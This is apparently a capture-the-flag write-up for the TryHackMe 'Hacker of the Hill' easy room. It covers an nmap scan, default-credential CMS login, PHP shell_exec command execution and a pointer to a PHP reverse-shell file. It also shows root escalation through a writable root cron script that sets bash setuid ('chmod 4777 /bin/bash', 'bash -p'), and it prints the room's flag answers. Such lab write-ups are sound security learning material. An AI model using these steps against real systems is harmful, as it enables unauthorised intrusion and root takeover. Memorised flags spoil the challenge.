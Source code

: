 # Hacker of the Hill

**Date:** 15, May, 2021

**Author:** Dhilip Sanjay S

---

[Click Here](https://tryhackme.com/room/hackerofthehill) to go to the TryHackMe room.

# Easy Challenge

## Enumeration

- Running nmap:

```bash
$ nmap -sC -sV -p- 10.10.156.206 -oN nmap-easy
Starting Nmap 7.91 ( https://nmap.org ) at 2021-05-15 19:11 IST

Nmap scan report for 10.10.156.206
Host is up (0.17s latency).
Not shown: 65529 closed ports
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 f7:75:95:c7:6d:f4:92:a0:0e:1e:60:b8:be:4d:92:b1 (RSA)
|   256 a2:11:fb:e8:c5:c6:f8:98:b3:f8:d3:e3:91:56:b2:34 (ECDSA)
|_  256 72:19:b7:04:4c:df:18:be:6b:0f:9d:da:d5:14:68:c5 (ED25519)
80/tcp   open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
8000/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
| http-robots.txt: 1 disallowed entry 
|_/vbcms
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: VeryBasicCMS - Home
8001/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
| http-title: My Website
|_Requested resource was /?page=home.php
8002/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Learn PHP
9999/tcp open  abyss?
| fingerprint-strings: 
|   FourOhFourRequest, HTTPOptions: 
|     HTTP/1.0 200 OK
|     Date: Sat, 15 May 2021 13:57:41 GMT
|     Content-Length: 0
|   GenericLines, Help, Kerberos, LDAPSearchReq, LPDString, RTSPRequest, SIPOptions, SSLSessionReq, TLSSessionReq, TerminalServerCookie: 
|     HTTP/1.1 400 Bad Request
|     Content-Type: text/plain; charset=utf-8
|     Connection: close
|     Request
|   GetRequest: 
|     HTTP/1.0 200 OK
|     Date: Sat, 15 May 2021 13:57:40 GMT
|_    Content-Length: 0
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
SF-Port9999-TCP:V=7.91%I=7%D=5/15%Time=609FD355%P=x86_64-pc-linux-gnu%r(Ge
SF:tRequest,4B,"HTTP/1\.0\x20200\x20OK\r\nDate:\x20Sat,\x2015\x20May\x2020
SF:21\x2013:57:40\x20GMT\r\nContent-Length:\x200\r\n\r\n")%r(HTTPOptions,4
SF:B,"HTTP/1\.0\x20200\x20OK\r\nDate:\x20Sat,\x2015\x20May\x202021\x2013:5
SF:7:41\x20GMT\r\nContent-Length:\x200\r\n\r\n")%r(FourOhFourRequest,4B,"H
SF:TTP/1\.0\x20200\x20OK\r\nDate:\x20Sat,\x2015\x20May\x202021\x2013:57:41
SF:\x20GMT\r\nContent-Length:\x200\r\n\r\n")%r(GenericLines,67,"HTTP/1\.1\
SF:x20400\x20Bad\x20Request\r\nContent-Type:\x20text/plain;\x20charset=utf
SF:-8\r\nConnection:\x20close\r\n\r\n400\x20Bad\x20Request")%r(RTSPRequest
SF:,67,"HTTP/1\.1\x20400\x20Bad\x20Request\r\nContent-Type:\x20text/plain;
SF:\x20charset=utf-8\r\nConnection:\x20close\r\n\r\n400\x20Bad\x20Request"
SF:)%r(Help,67,"HTTP/1\.1\x20400\x20Bad\x20Request\r\nContent-Type:\x20tex
SF:t/plain;\x20charset=utf-8\r\nConnection:\x20close\r\n\r\n400\x20Bad\x20
SF:Request")%r(SSLSessionReq,67,"HTTP/1\.1\x20400\x20Bad\x20Request\r\nCon
SF:tent-Type:\x20text/plain;\x20charset=utf-8\r\nConnection:\x20close\r\n\
SF:r\n400\x20Bad\x20Request")%r(TerminalServerCookie,67,"HTTP/1\.1\x20400\
SF:x20Bad\x20Request\r\nContent-Type:\x20text/plain;\x20charset=utf-8\r\nC
SF:onnection:\x20close\r\n\r\n400\x20Bad\x20Request")%r(TLSSessionReq,67,"
SF:HTTP/1\.1\x20400\x20Bad\x20Request\r\nContent-Type:\x20text/plain;\x20c
SF:harset=utf-8\r\nConnection:\x20close\r\n\r\n400\x20Bad\x20Request")%r(K
SF:erberos,67,"HTTP/1\.1\x20400\x20Bad\x20Request\r\nContent-Type:\x20text
SF:/plain;\x20charset=utf-8\r\nConnection:\x20close\r\n\r\n400\x20Bad\x20R
SF:equest")%r(LPDString,67,"HTTP/1\.1\x20400\x20Bad\x20Request\r\nContent-
SF:Type:\x20text/plain;\x20charset=utf-8\r\nConnection:\x20close\r\n\r\n40
SF:0\x20Bad\x20Request")%r(LDAPSearchReq,67,"HTTP/1\.1\x20400\x20Bad\x20Re
SF:quest\r\nContent-Type:\x20text/plain;\x20charset=utf-8\r\nConnection:\x
SF:20close\r\n\r\n400\x20Bad\x20Request")%r(SIPOptions,67,"HTTP/1\.1\x2040
SF:0\x20Bad\x20Request\r\nContent-Type:\x20text/plain;\x20charset=utf-8\r\
SF:nConnection:\x20close\r\n\r\n400\x20Bad\x20Request");
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 1043.16 seconds
```

## Vbcms
- On `http://10.10.95.253:8000/robots.txt`

```
User-agent: *
Disallow: /vbcms
```

- Sign in with admin:admin in `http://10.10.95.253:8000/vbcms`
- May be a Rabbit Hole ;-)


## Exploiting the Webpage on Port 8001
- Visit `http://10.10.156.206:8002/lesson/1`
- We have PHP command execution on that webpage. So, we'll use `shell_exec` to execute shell commands.

### What is the user flag for the serv1 user?
- **Answer:** THM{NGI4Nzk4OGI3MDE4NDUzNWYwNjMyZjY1}
- **Steps to Reproduce:**
    - By using the hint, we can cat the file `/usr/games/fortune`:

```php
echo shell_exec("cat /usr/games/fortune");

VEhNe05HSTROems0T0dJM01ERTRORFV6TldZd05qTXlaalkxfQo=
```

    - It is base64 encoded.

```bash
$ echo VEhNe05HSTROems0T0dJM01ERTRORFV6TldZd05qTXlaalkxfQo= | base64 -d

THM{NGI4Nzk4OGI3MDE4NDUzNWYwNjMyZjY1}
```

---

### What is the user flag for the serv2 user?
- **Answer:** THM{Bet_You're_Glad_This_Is_Not_A_Hash}
- **Steps to Reproduce:** 
    - By using the hint, we can cat the file `/var/lib/rary`:

```php
echo shell_exec("cat /var/lib/rary");

 _____ _   _ __  __   ______       _    __   __          _              ____ _ 
|_   _| | | |  \/  | / / __ )  ___| |_  \ \ / /__  _   _( )_ __ ___    / ___| |
  | | | |_| | |\/| || ||  _ \ / _ \ __|  \ V / _ \| | | |/| '__/ _ \  | |  _| |
  | | |  _  | |  | < < | |_) |  __/ |_    | | (_) | |_| | | | |  __/  | |_| | |
  |_| |_| |_|_|  |_|| ||____/ \___|\__|___|_|\___/ \__,_| |_|  \___|___\____|_|
                     \_\             |_____|                      |_____|      
           _   _____ _     _         ___         _   _       _          _    
  __ _  __| | |_   _| |__ (_)___    |_ _|___    | \ | | ___ | |_       / \   
 / _` |/ _` |   | | | '_ \| / __|    | |/ __|   |  \| |/ _ \| __|     / _ \  
| (_| | (_| |   | | | | | | \__ \    | |\__ \   | |\  | (_) | |_     / ___ \ 
 \__,_|\__,_|___|_| |_| |_|_|___/___|___|___/___|_| \_|\___/ \__|___/_/   \_\
           |_____|             |_____|     |_____|             |_____|       
      _   _           _   __   
     | | | | __ _ ___| |__\ \  
     | |_| |/ _` / __| '_ \| | 
     |  _  | (_| \__ \ | | |> >
 ____|_| |_|\__,_|___/_| |_| | 
|_____|                   /_/  

```

---

### What is the user flag for the serv3 user?
- **Answer:** THM{YmNlODZjN2I2ZDEwM2FlMDA5Y2RiYzZh}
- **Steps to Reproduce:** 
    - By using the hint, we can cat the file `/var/www/serv4/index.php`:

```php
echo shell_exec("cat /var/www/serv4/index.php");

THM{YmNlODZjN2I2ZDEwM2FlMDA5Y2RiYzZh}
```

---

### What is the root.txt flag?
- **Answer:** THM{OWQyMGRlNWM0NjYzN2NmM2MxMDNkODgx}
- **Steps to Reproduce:** 
   - To get the reverse shell, paste the **php-reverse-shell.php** code.
   - You can find the reverse shell code here:

```bash
cat /usr/share/webshells/php/php-reverse-shell.php
```

- For Privilege Escalation, we can use the **cron**. I just noticed that cron was running as root, by listing all the processes (`ps -aux`):

```bash
$ cat /etc/crontab
# /etc/crontab: system-wide crontab
# Unlike any other crontab you don't have to run the `crontab'
# command to install the new version when you edit this file
# and files in /etc/cron.d. These files also have username fields,
# that none of the other crontabs do.

SHELL=/bin/sh
PATH=/usr/local/sbin:/usr/local/bin:/sbin:/bin:/usr/sbin:/usr/bin

# m h dom mon dow user	command
17 *	* * *	root    cd / && run-parts --report /etc/cron.hourly
25 6	* * *	root	test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.daily )
47 6	* * 7	root	test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.weekly )
52 6	1 * *	root	test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.monthly )
#
* * * * *  root /home/serv3/backups/backup.sh

$ cat /home/serv3/backups/backup.sh
#!/bin/bash
mv /backups/* /home/serv3/backups/files
```

- Privilege Escalation, by changing the permission of `/bin/bash`. 
- The argument `-p`	stands for **privileged** -	Script runs as **"suid"**.

```bash
$ echo "chmod 4777 /bin/bash" >> backup.sh
$ ls -la /bin/bash
-rwsrwxrwx 1 root root 1113504 Jun  6  2019 /bin/bash

$ /bin/bash -p

bash-4.4# cat /root/root.txt
THM{OWQyMGRlNWM0NjYzN2NmM2MxMDNkODgx}
```

---

# Medium Challenge


---

## References
- [Advanced Bash Scripting Guide](https://tldp.org/LDP/abs/html/options.html)